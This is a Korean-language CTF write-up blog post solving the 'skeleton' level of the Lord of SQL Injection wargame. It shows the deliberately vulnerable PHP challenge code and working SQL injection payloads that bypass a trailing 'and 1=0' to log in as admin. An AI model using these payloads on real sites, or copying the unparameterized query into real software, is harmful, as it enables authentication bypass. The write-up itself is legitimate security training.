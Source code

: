 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - skeleton 문제풀이"
excerpt_separator: <!--more-->
comments: true
tags:
  - Write-up
  - Lord of SQL Injection
---
```


내일이 월요일이라니 실화인가.  

주말 너무 순삭되는 것 같다.  

지금 진행중인 `CTF` 문제를 풀고 싶은데 아직 내 실력으로는 무리라는걸 깨닫고 다시 `LOS`를 풀려고 돌아왔다.  

<!--more-->

이번 문제의 이름은 `skeleton` 이다.  

코드는 다음과 같다.  

```php
-----------------------------------------------------------------------------------------------
query : select id from prob_skeleton where id='guest' and pw='' and 1=0
-----------------------------------------------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_skeleton where id='guest' and pw='{$_GET[pw]}' and 1=0"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id'] == 'admin') solve("skeleton"); 
  highlight_file(__FILE__); 
?>
```

이번 문제도 역시 소스코드가 짧다.  

딱히 큰 필터링은 없는데 이번엔 쿼리가 달라져있다.  

`pw`를 사용자로부터 받아오는데, 뒤에 `and 1=0`이 있어 무조건 마지막에 입력한 쿼리는 `false`가 된다.  

예를 들어, 내가 이 전에 문제들을 풀었던 것 처럼 `pw`에 `1' or id='admin`을 입력한다면 완성되는 쿼리는 다음과 같다.  

```
select id from prob_skeleton where id='guest' and pw='1' or id='admin' and 1=0
```

때문에 내가 입력한 값이 `id=admin and 1=0` 를 만들게 되는 것이다.  

그럼 뒤의 `and 1=0`을 실행 못하게 하면 문제를 풀 수 있을 것 같다.  

사실 아래처럼 입력해도 문제를 풀 수 있다.  

```
?pw=1' or id='admin' or '1'='1
```

이렇게 되면 `id='admin'`를 기준으로 앞과 뒤의 쿼리가 모두 `false`고 `id='admin'`만 `true`가 되어 결과적으로 `admin`을 추출할 수 있다.  

근데 귀찮아서 문제를 풀 때는 그냥 `#`으로 주석처리 했다.  

```
?pw=1' or id='admin'%23
```

역시 문제 풀때는 간단한 방법이 최고다.  


```php
-------------------------------------------------------------------------------------------------------------------
query : select id from prob_skeleton where id='guest' and pw='1' or id='admin'#' and 1=0
-------------------------------------------------------------------------------------------------------------------

SKELETON Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_skeleton where id='guest' and pw='{$_GET[pw]}' and 1=0"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id'] == 'admin') solve("skeleton"); 
  highlight_file(__FILE__); 
?>
```

`SKELETON Clear!!`
